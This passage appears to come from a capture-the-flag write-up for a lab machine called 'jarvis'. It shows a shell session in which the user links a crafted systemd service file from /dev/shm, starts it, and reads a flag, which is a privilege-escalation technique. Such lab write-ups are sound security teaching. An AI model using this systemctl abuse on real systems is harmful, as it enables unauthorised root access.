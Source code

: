Afterwards, we would have to link the .service file and start the service. Lastly, we would just have to cat the file to read the flag.

```
pepper@jarvis:/dev/shm$ systemctl link /dev/shm/exploit7.service
Created symlink /etc/systemd/system/exploit7.service -> /dev/shm/exploit7.service.
pepper@jarvis:/dev/shm$ systemctl start exploit7
systemctl start exploit7
pepper@jarvis:/dev/shm$ ls /home/pepper
ls /home/pepper
Web  flag.txt  user.txt
pepper@jarvis:/dev/shm$ cat /home/pepper/flag.txt
cat /home/pepper/flag.txt
<Redacted root flag>
pepper@jarvis:/dev/shm$ 
```
